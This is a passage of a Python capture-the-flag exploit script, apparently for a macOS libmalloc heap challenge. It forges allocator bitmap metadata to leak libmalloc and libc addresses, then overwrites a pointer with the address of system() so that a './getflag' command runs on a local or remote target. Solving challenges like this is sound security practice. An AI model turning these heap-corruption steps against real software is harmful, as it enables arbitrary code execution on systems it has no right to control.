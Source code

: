 ~~~python
for i in range(4):
    fakemeta = (1 << bitmap_pos) + (fakemeta << 16)
heap_one_bitmap_addr = 0x100000028 + region * 0x100000 + bitmap_index * 8
magic(0, b'a' * 0x10 + p16(heap_one_bitmap_addr & 0xffff))

dele(1)
edit(0, p64(fakemeta))
dele(1)

a = add_in_same_region(3, 0x100, region)

edit(
    3,
    p64(0x10000f010) +
    p64(((magzine_list_addr + 0x60) >> 4) | checksum(magzine_list_addr + 0x60) << 60))
print(hex(add_in_same_region(4, 0x100, region)))
show(2)
libmalloc_base = l64() - 0x4358

io.close()

libc_base = libmalloc_base - 0x16a000
system_addr = libc_base + 0x77fdd
su('libmalloc_base')
su('libc_base')
su('system_addr')

################## get flag ##################

region = 2
if local:
    io = process(proc)
else:
    io = remote(ip, port)

ru('Gift: ')
magzine_list_addr = eval(r(11))
su('magzine_list_addr')

add(0xf, 'a', 0x30)
edit(0xf, './getflag')

heap_addr_list = []

for i in range(3):
    heap_addr_list.append(add_in_same_region(i, 0x100, region))

bitmap_offset = (heap_addr_list[1] - region * 0x100000 -
                    0x4080) // 0x10
bitmap_pos = bitmap_offset % 0x10
bitmap_index = bitmap_offset // 0x20
fakemeta = 0
for i in range(4):
    fakemeta = (1 << bitmap_pos) + (fakemeta << 16)
heap_one_bitmap_addr = 0x100000028 + region * 0x100000 + bitmap_index * 8

magic(0, b'a' * 0x10 + p16(heap_one_bitmap_addr & 0xffff))
dele(1)
edit(0, p64(fakemeta))
dele(1)

add_in_same_region(3, 0x100, region)
edit(3, p64(system_addr) + p64((0x100008020 >> 4) | checksum(0x100008020) << 60))
~~~